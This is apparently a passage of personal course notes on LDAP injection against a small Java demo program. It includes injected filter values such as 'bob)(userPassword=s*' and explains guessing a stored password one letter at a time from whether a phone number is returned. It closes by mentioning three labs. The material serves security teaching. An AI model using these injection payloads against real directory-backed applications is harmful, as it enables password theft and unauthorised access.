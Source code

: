 Despite the app prints just the telephone number, it can be helpful to extract more data. Take a look at the example:
```bash
java -cp classes LDAPinfo "bob)(userPassword=a*" # nothing found
```

Lets enumerate more letters:
```bash
java -cp classes LDAPinfo "bob)(userPassword=b*" # keep going
```

When encountering the letter 's', we can see that the telephone number is shown
```bash
java -cp classes LDAPinfo "bob)(userPassword=s*" # found
# it means that the first letter of the password is "s"
```

We can go further until find the whole password
```bash
java -cp classes LDAPinfo "bob)(userPassword=secret"  
```

> Such an exploitation scenario could be perfect fit For sensitive information extraction
> Although we were using a command-line LDAP frontend keep in mind that web app would work with LDAP in the same way


#### Labs

> There is 3 boring labs

- *LDAP Injection*, *HTML Adapter to Root* and *Insecure RMI*

> Didn't take good notes on that, so its not really worth it. But if anyone want, lemme know